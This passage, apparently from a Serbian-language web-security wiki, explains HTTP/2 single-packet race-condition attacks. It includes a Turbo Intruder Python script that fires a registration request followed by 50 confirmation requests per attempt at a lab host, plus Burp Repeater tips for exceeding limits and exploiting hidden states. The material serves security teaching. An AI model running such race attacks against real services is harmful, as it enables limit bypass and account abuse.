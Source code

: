 {% hint style="warning" %}
Ako web ne podržava HTTP2 (samo HTTP1.1), umesto `Engine.BURP2` koristite `Engine.THREADED` ili `Engine.BURP`.
{% endhint %}

* **Tubo Intruder - HTTP2 napad jednim paketom (Više krajnjih tačaka)**: U slučaju da treba poslati zahtev ka jednoj krajnjoj tački, a zatim više zahteva ka drugim krajnjim tačkama kako bi se pokrenuo RCE, možete promeniti skriptu `race-single-packet-attack.py` na nešto slično:

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=1,
engine=Engine.BURP2
)

# Hardcode the second request for the RC
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''

# For each attempt (20 in total) send 50 confirmation requests.
for attempt in range(20):
currentAttempt = str(attempt)
username = 'aUser' + currentAttempt

# queue a single registration request
engine.queue(target.req, username, gate=currentAttempt)

# queue 50 confirmation requests - note that this will probably sent in two separate packets
for i in range(50):
engine.queue(confirmationReq, gate=currentAttempt)

# send all the queued requests for this attempt
engine.openGate(currentAttempt)
```

* Takođe je dostupno u **Repeater-u** putem nove opcije '**Slanje grupe paralelno**' u Burp Suite-u.
* Za **prekoračenje ograničenja** možete jednostavno dodati **isti zahtev 50 puta** u grupu.
* Za **zagrevanje veze**, možete **dodati** na **početak grupe** neke **zahteve** ka nekom nestatičkom delu veb servera.
* Za **odlaganje** procesa **između** obrade **jednog zahteva i drugog** u 2 podstanja koraka, možete **dodati dodatne zahteve između** oba zahteva.
* Za **višestruki** RC možete početi slati **zahtev** koji **ide ka skrivenom stanju** a zatim **50 zahteva** odmah nakon toga koji **eksploatišu skriveno stanje**.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
